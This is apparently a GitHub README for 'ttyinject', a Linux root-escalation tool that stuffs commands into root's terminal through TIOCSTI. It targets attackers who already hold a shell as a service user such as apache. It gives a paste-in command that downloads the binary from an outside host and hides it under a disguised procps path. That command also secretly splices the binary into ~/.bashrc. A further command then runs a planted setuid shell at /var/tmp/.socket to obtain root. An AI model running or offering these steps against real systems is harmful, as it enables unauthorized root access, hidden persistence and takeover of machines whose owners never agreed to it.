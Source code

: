 # Alice gets ROOT when ROOT executes 'su alice'.  
(This is the older trick in the book - TTY / TIOCSTI stuffing)

Useful when all other exploits fail.

Typically used when the attacker has a shell as user 'apache', 'php' or 'postgresql'. Alice is used as an example only.

## Deploy
Cut & paste the following into Alice's shell:
```shell
mkdir -p ~/.config/procps 2>/dev/null
curl -o ~/.config/procps/reset -fsSL "https://github.com/hackerschoice/ttyinject/releases/download/v1.1/ttyinject-linux-$(uname -m)" \
&& chmod 755 ~/.config/procps/reset \
&& if grep -qFm1 'procps/reset' ~/.bashrc; then echo >&2 "Already installed in ~/.bashrc"; else \
echo "$(head -n1 ~/.bashrc)"$'\n'"~/.config/procps/reset 2>/dev/null"$'\n'"$(tail -n +2 ~/.bashrc)" >~/.bashrc; fi
```

Wait for ROOT to execute 'su alice' and thereafter gain root with:
```
/var/tmp/.socket -p -c "exec python3 -c \"import os;os.setuid(0);os.setgid(0);os.execl('/bin/bash', '-bash')\""
```
---

## Technical: Read the source.  
TL;DR:
* Injects commands into the root's TTY that copy `/bin/sh` to `/var/tmp/.socket` and +s the same.
* Only executed once (deletes itself on success)

